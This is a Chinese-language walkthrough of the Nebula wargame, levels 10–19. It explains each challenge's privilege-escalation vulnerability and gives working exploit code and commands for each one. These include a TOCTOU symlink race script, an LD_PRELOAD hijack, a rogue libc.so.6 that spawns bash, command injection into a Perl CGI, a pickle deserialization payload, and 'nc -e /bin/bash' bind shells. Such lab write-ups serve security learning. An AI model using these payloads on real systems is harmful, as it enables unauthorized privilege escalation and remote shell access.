本文是在解决[Exploit-exerceses](https://exploit-exercises.com)上**Nebula**中题目（Level10~19）时的一些思考与记录。

---

## Level10

题目描述：

> The setuid binary at **/home/flag10/flag10** binary will upload any file given, as long as it meets the requirements of the [access()](http://linux.die.net/man/2/access) system call.

源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
      printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
      exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
      int fd;
      int ffd;
      int rc;
      struct sockaddr_in sin;
      char buffer[4096];

      printf("Connecting to %s:18211 .. ", host); fflush(stdout);

      fd = socket(AF_INET, SOCK_STREAM, 0);

      memset(&sin, 0, sizeof(struct sockaddr_in));
      sin.sin_family = AF_INET;
      sin.sin_addr.s_addr = inet_addr(host);
      sin.sin_port = htons(18211);

      if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
          printf("Unable to connect to host %s\n", host);
          exit(EXIT_FAILURE);
      }

#define HITHERE ".oO Oo.\n"
      if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

可以看到，整个程序的逻辑是首先利用`access()`函数确定用户是否对文件具有读权限，如果是的话则建立TCP连接、打开读取文件传输。

这其中的trick在于**`access()`函数检查的是进程的`real user`对于一个文件的权限，而`open()`函数操作文件的权限则是取决于`effective use`的权限**。而这两个操作是分开的，所以这就造成了[TOCTOU(time of check to time of use)](https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use)漏洞，这是一个**race condition**类型的漏洞利用。

我们可以创建一个链接文件，使得在`access()`检查的时候它链接到level10用户有读权限的文件，而在open时，使得它链接到token文件。

编写shell脚本（/tmp/flag10.sh）：

``` shell
#!/bin/bash

ln -fs /tmp/flag10.sh /tmp/flag10.ln
/home/flag10/flag10 /tmp/flag10.ln 127.0.0.1 &

for ((i = 0; i < 300; i++)); do
	echo $i > /dev/null
done

ln -fs /home/flag10/token /tmp/flag10.ln
```

其中`&`符合是为了后台运行，就可以非阻塞的执行下一条语句；插入一个for循环是为了延后链接文件的目标文件更改时间，使得它能够在`access()`检查完成后并在`open()`执行前执行（当然这是不确定能100%成功的，可以调节循环次数）。

随后我们可以在另外一个终端里监听18211端口：

	nc -lk 18211

可以收到token文件内容：

	.oO Oo.
	615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

---

## Level11

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>

/*
 * Return a random, non predictable file, and return the file descriptor for it.
 */

int getrand(char **path)
{
  char *tmp;
  int pid;
  int fd;

  srandom(time(NULL));

  tmp = getenv("TEMP");
  pid = getpid();
  
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));

  fd = open(*path, O_CREAT|O_RDWR, 0600);
  unlink(*path);
  return fd;
}

void process(char *buffer, int length)
{
  unsigned int key;
  int i;

  key = length & 0xff;

  for(i = 0; i < length; i++) {
      buffer[i] ^= key;
      key -= buffer[i];
  }

  system(buffer);
}

#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[1024];
  char *mem;
  int length;
  int fd;
  char *path;

  if(fgets(line, sizeof(line), stdin) == NULL) {
      errx(1, "reading from stdin");
  }

  if(strncmp(line, CL, strlen(CL)) != 0) {
      errx(1, "invalid header");
  }

  length = atoi(line + strlen(CL));
  
  if(length < sizeof(buf)) {
      if(fread(buf, length, 1, stdin) != length) {
          err(1, "fread length");
      }
      process(buf, length);
  } else {
      int blue = length;
      int pink;

      fd = getrand(&path);

      while(blue > 0) {
          printf("blue = %d, length = %d, ", blue, length);

          pink = fread(buf, 1, sizeof(buf), stdin);
          printf("pink = %d\n", pink);

          if(pink <= 0) {
              err(1, "fread fail(blue = %d, length = %d)", blue, length);
          }
          write(fd, buf, pink);

          blue -= pink;
      }    

      mem = mmap(NULL, length, PROT_READ|PROT_WRITE, MAP_PRIVATE, fd, 0);
      if(mem == MAP_FAILED) {
          err(1, "mmap");
      }
      process(mem, length);
  }

}
```

`process()`函数内前面的异或反向处理非常简单，不再表述。最开始将目光聚焦于下面一段代码：

``` c
if(fread(buf, length, 1, stdin) != length) {
	err(1, "fread length");
}
process(buf, length);
```

但是发现`fread()`的第二、三个参数的值有些别扭，在这种情况下，它的返回值只能是1或0，所以length就只能是1了。所以我们就可以执行一个字母的命令，这可以通过增加`$PATH`变量、然后链接来实现命令执行。但一个问题是只写入一个字母，连字符串结束符`\0`都不能插入，所以只能多次尝试，以期栈上的后一个字节正好是`0x00`。

上面的方法过于麻烦，所以转而看else中的代码，只是要求输入长度大于1024，那么我们就直接在命令后填充无用字节就可以。实现程序：

``` c
//code.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main() {
	char str[1025] = "cp /tmp/bash /home/flag11/;chmod +s /home/flag11/bash;";
	for (int i = strlen(str); i < 1025; i++) {		
		str[i] = 0x0;
	}
	int length = 1025;
	unsigned int key = length & 0xff;

	char c;
	for (int i = 0; i < length; i++) {
		c = str[i];
		str[i] ^= key;
		key -= c;
	}

	//FILE *f = fopen("/tmp/flag11", "wb");
	fprintf(stdout, "Content-Length: %d\n", length);
	for (int i = 0; i < length; i++) {
		fputc(str[i], stdout);
	}
	//fclose(f);
	return 0;
}
```

仍然打算采用我们之前的获取shell套路，设置好`TEMP`的环境变量之后执行程序：



结果却发现提示没有权限，百思不得其解。使用IDA逆向`flag11`程序后发现，在执行`system()`函数前先将`effective user id`又设置了回去：



这与题目中给出的源码并不相同:joy:，本以为已到了绝路。后来通过查找[资料](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9)发现，其实题目程序中还有另外可以利用的地方：写文件。在进行写文件的时候，利用的仍然是`effective user id`，可以以flag11的权限来写文件，这也是题目中费尽心机要搞一个随机文件名的目的。

题目源码中生成随机文件名一是体现在`pid`上，但一般来说新建一个进程，它的`pid`是会比上一个进程的`pid`自增1的，所以也是可预测的，即为管道左面的程序`pid+1`；另一个是体现在随机数上，但这里用到的是伪随机，通过`srandom()`设置的种子只要相同，之后产生的随机数序列都是一致的，而这里用到的`time()`函数单位是**秒**，因此也是存在利用的空间的。管道左右两个连续执行的小程序，其`time()`的返回值是大概率相同的。

注意到flag11用户目录下存在`.ssh`文件夹，我们可以在此文件夹下写入我们的公钥到文件`authorized_keys`中，就可以直接ssh登录至flag11账户了。

我们可以编写一程序，创建一个和flag11程序要创建的临时文件同名的文件，将它符号链接到`/home/flag11/.ssh/authorized_keys`，然后输出内容构造为公钥文件内容即可。

代码如下：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <fcntl.h>
#include <stdio.h>
#include <sys/mman.h>


int getrand(char **path, int pid, int time)
{
  char *tmp;
  int fd =  0;

  srandom(time);

  tmp = getenv("TEMP");
  asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
      'A' + (random() % 26), '0' + (random() % 10),
      'a' + (random() % 26), 'A' + (random() % 26),
      '0' + (random() % 10), 'a' + (random() % 26));


  return fd;
}


#define CL "Content-Length: "

int main(int argc, char **argv)
{
  char line[256];
  char buf[2048] = "ssh-rsa your public key here...";

  int pid;
  int fd;
  char *path;

  pid = getpid()+1;
  getrand(&path, pid, time(NULL));
  symlink("/home/flag11/.ssh/authorized_keys",path);

  fprintf(stdout, "%s%d\n%s",CL,sizeof(buf),buf);

}
```

之后即可利用密钥登录ssh：



---

## Level12

题目源码：

``` lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 50001))

function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local line, err = client:receive()
  if not err then
      print("trying " .. line) -- log from where ;\
      local h = hash(line)

      if h ~= "4754a4f4bd5787accd33de887b9250a0691dd198" then
          client:send("Better luck next time\n");
      else
          client:send("Congrats, your token is 413**CARRIER LOST**\n")
      end

  end

  client:close()
end
```

存在很明显的命令注入：



---

## Level13

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <string.h>

#define FAKEUID 1000

int main(int argc, char **argv, char **envp)
{
  int c;
  char token[256];

  if(getuid() != FAKEUID) {
      printf("Security failure detected. UID %d started us, we expect %d\n", getuid(), FAKEUID);
      printf("The system administrators will be notified of this violation\n");
      exit(EXIT_FAILURE);
  }

  // snip, sorry :)

  printf("your token is %s\n", token);
  
}
```

查看flag14程序的重定位表，可以发现`getuid()`函数：



这道题目是为了exploit`getuid()`函数，我们可以通过`LD_PRELOAD`预先加载我们自己的链接文件，劫持原本的`getuid()`函数。

``` c
int getuid()
{
	return 1000;
}
```

将它编译为动态链接文件，并执行：

	$ gcc -shared -o getuid.so getuid.c

	$ LD_PRELOAD=~/getuid.so /home/flag13/flag13

执行发现没有效果，发现**LD_PRELOAD要生效，所执行的程序的owner必须是该用户**，所以将flag13文件copy一下即可：



---

## Level14

此题略微试探一下即可发现其加密逻辑：从第0个字符开始，每个字符的ascii对应加1即为密文。直接编写脚本解密：

``` python
#!/usr/bin/python

plain = ''

with open('/home/flag14/token', 'r'):
    cipher = f.read()[:-1]
    for i in range(len(cipher)):
        plain += chr(ord(cipher[i]) - i)

print plain
```

---

## Level15

按照题目提示，`strace`来监控flag15程序的系统调用，在输出中发现：

	open("/var/tmp/flag15/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)

程序试图打开一个不存在的文件，观察文件名像是动态链接文件，查看flag15的相关信息：

	$ readelf -d flag15

	Dynamic section at offset 0xf20 contains 21 entries:
	  Tag        Type                         Name/Value
	 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
	 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]
	 ......

可以发现有`RPATH`变量值为`/var/tmp/flag15`，查看`man dlopen`可以发现`RPATH`在连接器寻找目录的首位，因此我们可以构造自己的`libc.so.6`动态链接文件放在`/var/tmp/flag15`目录下。动态链接文件载入时会首先执行`_init`函数，因此我们可以重写此函数来达到目的。（重写`__libc_start_main`函数也可以）

``` c
__attribute__((constructor)) void __myinit(void) {
	setresuid(984, 984, 984);
	system("/bin/bash");
}
```

采用如下指令编译：

	gcc -shared -fPIC -o libc.so.6 libc1.c

运行flag15后发现提示：

> /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)

查阅资料，需要编写一version文件，在链接时加入版本信息：

	$ cat ver
	GLIBC_2.0 {};
	$ gcc -shared -fPIC -o libc.so.6 -Wl,--version-script,ver libc1.c

运行flag15后又现提示：

> /var/tmp/flag15/libc.so.6: version `GLIBC_2.1.3' not found (required by /var/tmp/flag15/libc.so.6)

经查阅资料后，发现原因可能为我们自己编写`libc.so.6`覆盖了原本的`libc.so.6`，它仅会加载一次；而我们自己编写的`libc.so.6`要用到本来的`libc.so.6`的函数，所以在运行的时候会提示找不到。解决方法是在编译`libc.so.6`的时候采用静态链接的方法。

	gcc -shared -fPIC -o libc.so.6 -static-libgcc -Wl,--version-script,ver,-Bstatic libc1.c

之后即可正确运行flag15程序，拿到shell。

---

## Level16

题目源码：

``` perl
#!/usr/bin/env perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub login {
  $username = $_[0];
  $password = $_[1];

  $username =~ tr/a-z/A-Z/; # conver to uppercase
  $username =~ s/\s.*//;        # strip everything after a space

  @output = `egrep "^$username" /home/flag16/userdb.txt 2>&1`;
  foreach $line (@output) {
      ($usr, $pw) = split(/:/, $line);
  

      if($pw =~ $password) {
          return 1;
      }
  }

  return 0;
}

sub htmlz {
  print("<html><head><title>Login resuls</title></head><body>");
  if($_[0] == 1) {
      print("Your login was accepted<br/>");
  } else {
      print("Your login failed<br/>");
  }    
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

由源码可以看出，此题应该是**命令注入**，但对输入的变量做了限制：

- 将所有的小写字母转化为大写字母
- 将空白字符及其后面的字符全部删掉

一般的命令都要求输入参数，这就要用空格隔开，因此不能直接注入命令，考虑将命令写入脚本，然后执行；但是并没有对根目录的写入权限，而根目录下的所有文件夹都是小写，所以就需要考虑一种绕过方法。

将如下脚本写入`/tmp/SHELL`：

``` shell
#!/bin/bash
nc.traditional -nlp 9999 -e /bin/bash
```

然后可以用`/*/SHELL`来访问到它，这就绕过了大写转换。给此脚本增加执行权限，然后访问：

	http://your-ip:1616/index.cgi?username=$(/*/SHELL)

然后直接连接nc所监听端口，获取shell。

> ps. 另一种绕过方法是利用shell自身的[case modification](http://wiki.bash-hackers.org/syntax/pe#case_modification)，先定义一变量，然后在引用该变量的时候利用`${var,,}`来将大写字母转化为小写。

---

## Level17

题目源码：

``` python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

### python的pickle库反序列化漏洞

此题是python的pickle序列化库的特性，它可能会导致反序列化漏洞。

pickle库能序列化大多数对象，包括用户自定义的类。它的序列化函数有两个：

- `pickle.load(obj, file, protocol=None, *, fix_imports=True)`：该方法将obj对象序列化为字节（bytes）输出到file文件中。
- `pickle.loads(obj, protocol=None, *, fix_imports=True)`：该方法将obj对象序列化并返回一个bytes对象。

反序列化函数对应也有两个：

- `pickle.load(file, *, fix_imports=True, encoding="ASCII", errors="strict")`：从一个对象文件中读取序列化数据，将其反序列化之后返回一个对象。 
- `pickle.loads(bytes_object, *, fix_imports=True, encoding="ASCII", errors="strict")`：将一个bytes对象反序列化并返回一个对象。

对于一个类来说，其`__reduce__()`方法在反序列化时是会被执行的，这个方法返回一个字符串或者元组来描述当反序列化的时候该如何重构。

### payload

所以我们就可以利用`__reduce__()`方法来get shell。编写python脚本：

``` python
#!/usr/bin/python
#coding=utf-8

import pickle
import os

class poc(object):
	def __reduce__(self):
		s = "nc.traditional -nlp 9999 -e /bin/bash"
		#s = 'echo abcdefg'
		return os.system, (s,)

e = poc()
s = pickle.dumps(e)
print s
```

运行然后连接nc端口：



---

## Level18

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

}

void notsupported(char *what)
{
  char *buffer = NULL;
  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
  dprintf(what);
  free(buffer);
}

void setuser(char *user)
{
  char msg[128];

  sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
  printf("%s\n", msg);

}

int main(int argc, char **argv, char **envp)
{
  char c;

  while((c = getopt(argc, argv, "d:v")) != -1) {
      switch(c) {
          case 'd':
              globals.debugfile = fopen(optarg, "w+");
              if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
              setvbuf(globals.debugfile, NULL, _IONBF, 0);
              break;
          case 'v':
              globals.verbose++;
              break;
      }
  }

  dprintf("Starting up. Verbose level = %d\n", globals.verbose);

  setresgid(getegid(), getegid(), getegid());
  setresuid(geteuid(), geteuid(), geteuid());
  
  while(1) {
      char line[256];
      char *p, *q;

      q = fgets(line, sizeof(line)-1, stdin);
      if(q == NULL) break;
      p = strchr(line, '\n'); if(p) *p = 0;
      p = strchr(line, '\r'); if(p) *p = 0;

      dvprintf(2, "got [%s] as input\n", line);

      if(strncmp(line, "login", 5) == 0) {
          dvprintf(3, "attempting to login\n");
          login(line + 6);
      } else if(strncmp(line, "logout", 6) == 0) {
          globals.loggedin = 0;
      } else if(strncmp(line, "shell", 5) == 0) {
          dvprintf(3, "attempting to start shell\n");
          if(globals.loggedin) {
              execve("/bin/sh", argv, envp);
              err(1, "unable to execve");
          }
          dprintf("Permission denied\n");
      } else if(strncmp(line, "logout", 4) == 0) {
          globals.loggedin = 0;
      } else if(strncmp(line, "closelog", 8) == 0) {
          if(globals.debugfile) fclose(globals.debugfile);
          globals.debugfile = NULL;
      } else if(strncmp(line, "site exec", 9) == 0) {
          notsupported(line + 10);
      } else if(strncmp(line, "setuser", 7) == 0) {
          setuser(line + 8);
      }
  }

  return 0;
}
```

题目指出此题共有三种解法，可以发现`notsupported()`函数中的`dprintf()`应该存在**格式化字符串漏洞**，而`setuser()`函数中应该存在栈溢出漏洞，这可能是该题目的可能解法，但该程序有一定的保护机制，目前超出能力范围。

所以还是关注另一个程序漏洞。由代码可以看出，只要能成功登录，即可拿到shell，查看`login()`函数，可以发现只要能让`password`文件打开失败，即可无密码登录。

那么如何使`fopen()`执行失败呢？可以利用系统对shell资源的访问限制来实现，系统是限制了用户或进程的资源使用的，其中就有**可以打开最大文件描述符的数量**。可以通过`ulimit -a`来查看相关的资源限制：



其中可以看到`open files (-n) 1024`，所以目前单个进程可打开文件描述符的最大数量为1024，这个数值可以通过`ulimit -n number`设置。其中每个进程都默认打开`stdin`, `stdout`, `stderr`三个文件描述符，因此我们设置`ulimit -n 4`。

设置为4是为了还能打开程序（设置为3时，无法运行程序），并且还可以利用flag18程序的`-d`参数查看输出信息。此外我们直接设置`-d /dev/tty`来将输出的debug信息输出到屏幕上。

所以在设置了`-d`参数的情况下，打开flag18程序时，即打开了四个文件，可以直接login：



可以看到登录成功，但是在运行`/bin/sh`的时候无法打开链接库，那么登录成功后就可以利用`closelog`来关闭一个文件：



又出现了问题，由于运行`/bin/sh`的时候将程序的参数也都传递了过去，因此`/bin/sh`程序报错。为了解决这个问题，我们可以在运行flag18程序的时候在最前面加上`--rcfile`的参数，这是一个bash的参数，用来自定义`bashrc`文件，此参数后跟着的内容即使是不存在的文件也不会报错。所以在执行`/bin/sh`的时候，`-d`会被当成一个无效的`bashrc`文件被忽略，而`/dev/tty`则会被当作bash执行的源文件，这样恰好我们可以实现一个交互式的shell，bash会直接从终端读取输入并执行。（不然`/dev/tty`处换成其它文本文件的话，就要将要执行的命令先行写入该文件。）



---

## Level19

题目源码：

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <sys/stat.h>

int main(int argc, char **argv, char **envp)
{
  pid_t pid;
  char buf[256];
  struct stat statbuf;

  /* Get the parent's /proc entry, so we can verify its user id */

  snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
      printf("Unable to check parent process\n");
      exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
      /* If root started us, it is ok to start the shell */

      execve("/bin/sh", argv, envp);
      err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
```

该程序的逻辑是，判断父进程的uid是否为0（即root用户），如果是则可以执行shell程序。所以我们的目的就是在执行此程序的时候，让它的父进程的uid为0。

在常规下情况下执行程序，程序的父进程都是用户所登陆的shell，其父进程uid即为登录用户uid。我们显然不可能以root用户登录，要如何才能实现程序的父进程uid为0呢？

这就让我们想到了**孤儿进程**的处理机制：在Linux中，一个子进程的父进程如果在子进程结束之前便退出，那么该子进程就会被pid为1的进程接管，它的父进程会变更为1号进程。而1号进程的uid即为root。

编写程序：

``` c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

int main() {
	if (fork() == 0) {
		sleep(1);
		execl("/home/flag19/flag19", "sh", "-c", "cp /tmp/bash /home/flag19/; chmod +s /home/flag19/bash", (char*)0);
		err(1, "Unable to exec flag19");
	}
	return 0;
}
```

在上述程序中，直接创建子进程执行flag19程序，并设置好了要执行的命令，为了保险起见、让父进程先退出，先让子进程休眠1s；父进程就直接退出。

